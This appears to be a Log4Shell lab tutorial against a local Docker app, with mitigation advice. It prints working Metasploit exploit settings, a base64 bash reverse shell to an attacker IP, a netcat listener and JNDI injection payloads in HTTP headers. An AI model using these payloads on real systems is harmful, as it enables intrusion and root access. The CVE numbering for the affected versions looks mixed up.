



# Log4Shell lab

The _Log4Shell exploit_ targets a vulnerability in the Apache Log4j logging library, allowing remote code execution by manipulating log messages. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application via JNDI lookups.

Log4j uses Java Naming and Directory Interface (JNDI) to enable dynamic logging configuration based on resources located through naming and directory services. It allows log messages to include lookup patterns that can retrieve data from various sources, such as LDAP or DNS.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

The payload is a Java gadget chain that leverages a Java deserialisation vulnerability. The gadget chain involves invoking methods on serialised objects that execute arbitrary code upon deserialisation, leveraging existing classes in the application's classpath to bypass security checks and gain remote code execution. For more information on choosing which gadget to use to effectively gain code execution on the victim, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

## Vulnerability fix

The vulnerability is addressed in Log4j version 2.17.1 and later. As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44832), Apache Log4j (`log4j-core`) versions 2.0-beta9 to 2.14.1 are vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_ such as Spring Boot.

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Lab

Package the vulnerable application with Gradle and run it in a Docker container.

```bash
tom@MacBook:~/workspace/security/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.



The logs show that the lookup string is resolved.



## Finding the vulnerability

Use the Metasploit module `scanner/http/log4shell_scanner`. The scanner finds the vulnerable `User-Agent` header from the POC application.

```bash
msf6> use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.5.2
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVPORT 1389
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[+] ::1:8080              - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
```

## Automated exploitation with Metasploit

Metasploit has a couple of modules for automated exploitation. For header injection we can use the module `exploit/multi/http/log4shell_header_injection`.

To work on the lab environment, we use the following options. Replace the LHOST and SRVHOST variables with the Docker host IP. The lab environment uses Java 11 so we will use the Java gadget "BeanFactory".

```bash
set HTTP_HEADER User-Agent
set RHOSTS 127.0.0.1
set RPORT 8080
set LHOST 192.168.5.2
set LPORT 443
set SRVHOST 192.168.5.2
set SRVPORT 1389
set target 2
set JAVA_GADGET_CHAIN BeanFactory
```

Run the exploit and we get shell access.

```bash
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.5.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 127.0.0.1:8080        - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[+] The target is vulnerable.
[*] Command shell session 3 opened (192.168.5.2:4444 -> 192.168.5.5:40058) at 2024-02-17 16:17:43 +0100
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
```

### Manual exploit

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
POST /login HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/

username=log4shell
```

We get a shell connection into the Docker container.



## Ethical consideration and responsible use

This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

---

Resources:
- https://github.com/pentesterland/Log4Shell
- https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4
- https://github.com/Cyb3rWard0g/log4jshell-lab
- https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
